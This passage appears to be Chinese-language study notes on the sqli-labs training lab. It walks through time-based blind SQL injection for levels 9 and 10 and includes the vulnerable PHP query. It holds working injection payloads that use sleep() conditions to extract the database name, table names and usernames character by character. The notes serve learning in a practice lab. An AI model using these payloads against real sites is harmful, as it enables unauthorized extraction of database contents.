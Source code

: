 猜数据库长度

长度为8，休眠2秒执行

```
1' and if((length(database()))=8,sleep(2),0)--+
```

猜数据库名称

```
1' and if(ascii(substr(database(),1,1))=115,sleep(2),0)--+
```

跟上面的布尔盲注一样的，只是没办法查看true，false

猜表名

```
1' and if(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=101,sleep(2),0) --+
```

猜表名

```
1' and if(ascii(substr((select username from users limit 0,1),3,1))=109,sleep(2),0)-- a
```

## less-10 时间盲注

```php
$id = '"'.$id.'"';
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);
```

双引号闭合

判断注入

```
1" and if(1=1,sleep(2),1) -- a
```

猜数据库长度

```
1" and length(database())=8 and if(1=1,sleep(2),1) -- a
```

ascii码 猜数据库名称

```
1" and (ascii(substr((select database()),1,1)))=115 and if(1=1,sleep(2),1) -- a
```

猜表名

```
1" and (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1)))=101 and if(1=1,sleep(2),1) -- a
```
